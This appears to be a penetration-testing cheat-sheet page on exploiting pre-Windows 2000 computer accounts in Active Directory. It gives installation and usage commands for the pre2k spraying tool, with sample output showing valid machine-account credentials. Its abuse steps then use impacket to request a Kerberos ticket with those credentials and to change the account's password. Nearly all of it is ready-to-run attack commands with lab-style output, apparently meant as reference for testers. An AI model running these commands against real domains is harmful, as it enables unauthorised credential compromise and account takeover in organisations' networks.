 ```yaml
---
title: "Pre-Windows 2000 Computer"
date: 2025-7-10
tags: ["Domain Controller", "Pre-Windows 2000 Computer", "Active Directory", "Windows", "pre2k", "Pre-Created Computer", "STATUS_PASSWORD_MUST_CHANGE"]
---
```


### Enum

{{< tab set1 tab1 >}}pre2k{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Installation

```console
python3 -m venv venv
```

```console
source venv/bin/activate
```

```console
git clone https://github.com/garrettfoster13/pre2k.git
```

```console
cd pre2k/
```

```console
pip3 install .
```

#### Query

```console
# Unauth
pre2k unauth -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose -inputfile '<MACHINES_FILE>'
```

```console {class="sample-code"}
$ cat machines.txt 
banking$

$ pre2k unauth -d example.com -dc-ip 192.168.1.10 -verbose -inputfile 'machines.txt'

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:53:03] INFO     Testing started at 2025-07-10 23:53:03
[23:53:03] INFO     Using 10 threads
[23:53:03] INFO     VALID CREDENTIALS: example.com\banking$:banking
```

```console
# Auth
pre2k auth -u '<USER>' -p '<PASSWORD>' -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose
```

```console {class="sample-code"}
$ pre2k auth -u trainee -p trainee -d example.com -dc-ip 192.168.1.10 -verbose                             

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:54:06] INFO     Retrieved 2 results total.
[23:54:06] INFO     Testing started at 2025-07-10 23:54:06
[23:54:06] INFO     Using 10 threads
[23:54:07] INFO     VALID CREDENTIALS: example.com\BANKING$:banking
[23:54:07] DEBUG    Invalid credentials: example.com\DC$:dc
```

<small>*Ref: [pre2k](https://github.com/garrettfoster13/pre2k)*</small>

{{< /tabcontent >}}

### Abuse #1: Connect via Kerberos

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Request a Ticket

```console
sudo ntpdate -s <DC_IP> && impacket-getTGT '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.example.com && impacket-getTGT 'example.com/Banking$:banking' -dc-ip dc.example.com     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Banking$.ccache
```

```console
export KRB5CCNAME='<USER>.ccache'
```

{{< /tabcontent >}}

### Abuse #2: Change Target Password

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-changepasswd -newpass '<NEW_PASSWORD>' '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' -protocol rpc-samr
```

```console {class="sample-code"}
$ impacket-changepasswd -newpass banking 'example.com/BANKING$:banking@dc.example.com' -protocol rpc-samr 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of example.com\BANKING$
[*] Connecting to DCE/RPC as example.com\BANKING$
[*] Password was changed successfully.
```

{{< /tabcontent >}}

<br>

